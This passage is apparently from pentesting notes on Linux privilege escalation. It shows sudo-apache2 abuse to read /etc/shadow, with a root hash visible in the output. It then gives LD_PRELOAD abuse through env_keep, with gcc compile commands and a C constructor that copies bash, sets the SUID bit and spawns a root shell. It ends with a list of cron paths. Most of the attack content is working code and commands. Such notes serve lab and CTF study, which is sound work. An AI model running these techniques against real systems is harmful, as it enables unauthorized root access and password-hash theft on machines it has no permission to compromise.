 * [https://gtfobins.github.io/](https://gtfobins.github.io/)

Even if there are no bins shell escapes, there still may be a way\
I**f I have sudo access to apache2:**

```bash
$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0           :17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

### - Environment Variables

In the /etc/sudoers file, if the env\_reset option is set, sudo will run programs in a new, minimal environment (run sudo -l to check)\


### &#x20;**LD\_PRELOAD**

LD\_PRELOAD is an evironment varibale which can be set to the path of a shared object (.so) file. When set the object will be loaded before any others. By creating an init() function, we can execute code when the object is loaded

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
#Notice env_keep=LD_PRELOAD
#Example:
#Compiling C file into shared object which just basically spawns a shell
user@debian:~/tools/sudo$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
# Running a command (in this case "find") that we have sudo access to and setting LD_PELOAD to our shared object
# This shared object file will be executed first (and its obviously malicious)
user@debian:~/tools/sudo$ sudo LD_PRELOAD=/tmp/preload.so find
#Profit.
root@debian:/home/user/tools/sudo
```

Shared Object Injection

If an exploit you need requires an .so and you have access to gcc, you can create a shared object like&#x20;

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

And then

```bash
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

## Cronjobs / Crontabs

* /var/spool/cron/ - Configuration for cron jobs
* /var/spool/cron/crontabs - User
* /etc/crontab - System-wide

